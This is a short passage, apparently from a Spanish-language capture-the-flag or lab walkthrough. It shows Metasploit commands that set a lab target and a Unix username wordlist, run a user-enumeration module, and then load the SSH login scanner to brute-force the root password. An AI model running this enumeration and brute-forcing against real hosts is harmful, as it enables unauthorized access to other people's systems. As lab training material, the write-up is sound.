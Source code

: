 Configuramos las opciones
```
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
```

<p align="center">
    <img src="../img/Pasted_image_20241231175007.png" width="500">
</p>


Ejecutamos el módulo
```
run
```

<p align="center">
    <img src="../img/Pasted_image_20241231175027.png" width="500">
</p>


<h5><center> Fuerza Bruta</center></h5>

Como tenemos un listado de los posibles usuarios, y sobre todo tenemos al usuario `root`, podemos realizar o averiguar por medio de fuerza bruta la contraseña para el usuario `root`. Incluso podemos crear un diccionario con todos los posibles usuarios enumerados y buscar las contraseña.
```
use auxiliary/scanner/ssh/ssh_login
```

